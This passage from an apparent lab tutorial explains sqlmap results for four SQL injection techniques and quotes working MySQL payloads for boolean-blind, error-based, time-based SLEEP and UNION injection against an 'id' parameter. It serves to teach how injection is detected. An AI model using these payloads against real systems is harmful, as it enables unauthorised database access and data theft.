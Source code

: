             ```sql
            (SELECT (CASE WHEN (7406=7406) THEN 1 ELSE (SELECT 1864 UNION SELECT 1238) END))
            ```
        - If the page loads normally → the condition was **true**
        - If the page behaves differently → the condition was **false**

        - Used when: error messages and content aren't shown, but timing or content change reveals info.

    2. Error-Based Injection
        ```plaintext
        Type: error-based
        Title: MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: id=1 AND ROW(2484,1884)>(SELECT COUNT(*),CONCAT(0x7162627171,(SELECT (ELT(2484=2484,1))),0x716b6a7a71,FLOOR(RAND(0)*2))x FROM (SELECT 2008 UNION SELECT 3074 UNION SELECT 3727 UNION SELECT 2343)a GROUP BY x)&Submit=Submit
        ```

        🔹 What it means:
        - This technique forces an SQL error, and the error message leaks data into the output.
        - SQLmap uses clever tricks like:
            ```sql
            FLOOR(RAND(0)*2)
            ```
        - This introduces a duplicate key error in `GROUP BY`
        - The error message often includes pieces of injected data

        - Used when: error messages are shown on the page (e.g. `MySQL: Duplicate entry...`)

    3. Time-Based Blind Injection
        ```plaintext
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1 AND (SELECT 5779 FROM (SELECT(SLEEP(5)))yOIm)&Submit=Submit
        ```

        🔹 What it means:
        - The injected SQL includes a SLEEP(5) command, which delays the response by 5 seconds if the query works.
        - Example:
            ```sql
            id=1 AND (SELECT SLEEP(5))
            ```
        - If the page delays → the condition executed = injectable.

        - Used when: there's no output at all, but you can measure response time.

    4. UNION-Based Injection
        ```plaintext
        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1 UNION ALL SELECT CONCAT(0x7162627171,0x4c5a4e596d5577597a4b6a5159456258524b58766143746a6f63776f74725770764d447251495779,0x716b6a7a71),NULL-- -&Submit=Submit
        ```
        🔹 What it means:
        - SQLmap uses a UNION SELECT to merge query results with its own injected data.
        - It tries to show results on the page by combining the original query with fake rows:
            ```sql
            UNION ALL SELECT 'data', NULL
            ```
        